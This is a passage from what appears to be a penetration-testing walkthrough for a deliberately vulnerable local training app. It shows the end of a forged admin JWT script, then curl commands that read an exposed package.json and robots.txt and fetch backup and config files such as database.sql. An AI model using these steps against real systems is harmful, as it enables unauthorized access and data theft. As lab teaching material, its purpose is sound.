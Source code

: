 ```bash
console.log('Forged Admin Token:', token);
EOF

node forge_token.js
```

#### Step 5: Analyze Package.json

```bash
# Get package information
curl http://localhost:3000/package.json
```

**Response:**
```json
{
  "message": "VULNERABILITY: A05 - Security Misconfiguration",
  "description": "Package.json exposed",
  "data": {
    "name": "wcorp-backend",
    "version": "1.0.0",
    "dependencies": {
      "express": "^4.18.2",
      "mysql2": "^3.2.0",
      "jsonwebtoken": "^9.0.0"
    }
  }
}
```

✅ **Technology stack and versions exposed - search for CVEs!**

#### Step 6: Directory Enumeration

```bash
# Check robots.txt for hidden paths
curl http://localhost:3000/robots.txt
```

**Response:**
```
User-agent: *
Disallow: /admin/
Disallow: /api/
Disallow: /uploads/
Disallow: /config/
Disallow: /backup/
```

✅ **Hidden directories revealed!**

#### Step 7: Exploit Found Information

```bash
# Try accessing revealed directories
curl http://localhost:3000/backup/
curl http://localhost:3000/config/
curl http://localhost:3000/uploads/

# Check for backup files
curl http://localhost:3000/backup/database.sql
curl http://localhost:3000/backup/config.bak
```
